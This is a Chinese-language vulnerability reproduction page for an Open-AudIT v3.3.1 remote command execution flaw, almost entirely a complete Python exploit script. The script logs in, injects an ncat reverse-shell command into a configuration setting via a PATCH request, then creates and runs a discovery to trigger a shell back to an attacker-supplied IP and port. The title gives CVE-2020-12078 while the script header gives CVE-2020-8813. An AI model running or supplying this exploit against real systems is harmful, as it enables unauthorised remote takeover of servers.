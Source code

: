 （CVE-2020-12078）Open-AudIT v3.3.1 远程命令执行漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

Open-AudIT v3.3.1

三、复现过程
------------

![](./.resource/(CVE-2020-12078)Open-AudITv3.3.1远程命令执行漏洞/media/rId24.png)

    OpenAudIT-postauth-rce.py
    #!/usr/bin/python3

    # Exploit Title: Open-AudIT Professional v3.3.1 Remote Code Execution
    # Date: 22/04/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://opmantek.com/
    # Version: v3.3.1
    # Tested on: Ubuntu 18.04 / PHP 7.2.24

    import requests
    import sys
    import warnings
    import random
    import string
    from bs4 import BeautifulSoup
    from urllib.parse import quote

    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')


    if len(sys.argv) != 6:
        print("[~] Usage : ./openaudit-exploit.py url username password ip port")
        exit()

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]

    request = requests.session()

    def inject_payload():
        configuration_path = url+"/en/omk/open-audit/configuration/90"
        data = 'data={"data":{"id":"90","type":"configuration","attributes":{"value":";ncat${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s${IFS};"}}}' % (ip, port)
        request.patch(configuration_path, data)
        print("[+] Payload injected in settings")


    def start_discovery():
        discovery_path = url+"/en/omk/open-audit/discoveries/create"
        post_discovery_path = url+"/en/omk/open-audit/discoveries"
        scan_name = "".join([random.choice(string.ascii_uppercase) for i in range(10)])
        req = request.get(discovery_path)

        response = req.text
        soup = BeautifulSoup(response, "html5lib")
        token = soup.findAll('input')[5].get("value")
        buttons = soup.findAll("button")
        headers = {"Referer" : discovery_path}
        request_data = {
        "data[attributes][name]":scan_name,
        "data[attributes][other][subnet]":"10.10.10.1/24",
        "data[attributes][other][ad_server]":"",
        "data[attributes][other][ad_domain]":"",
        "submit":"",
        "data[type]":"discoveries",
        "data[access_token]":token,
        "data[attributes][complete]":"y",
        "data[attributes][org_id]":"1",
        "data[attributes][type]":"subnet",
        "data[attributes][devices_assigned_to_org]":"",
        "data[attributes][devices_assigned_to_location]":"",
        "data[attributes][other][nmap][discovery_scan_option_id]":"1",
        "data[attributes][other][nmap][ping]":"y",
        "data[attributes][other][nmap][service_version]":"n",
        "data[attributes][other][nmap][open|filtered]":"n",
        "data[attributes][other][nmap][filtered]":"n",
        "data[attributes][other][nmap][timing]":"4",
        "data[attributes][other][nmap][nmap_tcp_ports]":"0",
        "data[attributes][other][nmap][nmap_udp_ports]":"0",
        "data[attributes][other][nmap][tcp_ports]":"22,135,62078",
        "data[attributes][other][nmap][udp_ports]":"161",
        "data[attributes][other][nmap][timeout]":"",
        "data[attributes][other][nmap][exclude_tcp_ports]":"",
        "data[attributes][other][nmap][exclude_udp_ports]":"",
        "data[attributes][other][nmap][exclude_ip]":"",
        "data[attributes][other][nmap][ssh_ports]":"22",
        "data[attributes][other][match][match_dbus]":"",
        "data[attributes][other][match][match_fqdn]":"",
        "data[attributes][other][match][match_dns_fqdn]":"",
        "data[attributes][other][match][match_dns_hostname]":"",
        "data[attributes][other][match][match_hostname]":"",
        "data[attributes][other][match][match_hostname_dbus]":"",
        "data[attributes][other][match][match_hostname_serial]":"",
        "data[attributes][other][match][match_hostname_uuid]":"",
        "data[attributes][other][match][match_ip]":"",
        "data[attributes][other][match][match_ip_no_data]":"",
        "data[attributes][other][match][match_mac]":"",
        "data[attributes][other][match][match_mac_vmware]":"",
        "data[attributes][other][match][match_serial]":"",
        "data[attributes][other][match][match_serial_type]":"",
        "data[attributes][other][match][match_sysname]":"",
        "data[attributes][other][match][match_sysname_serial]":"",
        "data[attributes][other][match][match_uuid]":""

        }
        print("[+] Creating discovery ..")
        req = request.post(post_discovery_path, data=request_data, headers=headers, allow_redirects=False)
        disocvery_url = url + req.headers['Location'] + "/execute"
        print("[+] Triggering payload ..")
        print("[+] Check your nc ;)")
        request.get(disocvery_url)


    def login():
        login_info = {
        "redirect_url": "/en/omk/open-audit",
        "username": username,
        "password": password
        }
        login_request = request.post(url+"/en/omk/open-audit/login", login_info)
        login_text = login_request.text
        if "There was an error authenticating" in login_text:
            return False
        else:
            return True

    if login():
        print("[+] LoggedIn Successfully")
        inject_payload()
        start_discovery()
    else:
        print("[-] Cannot login!")
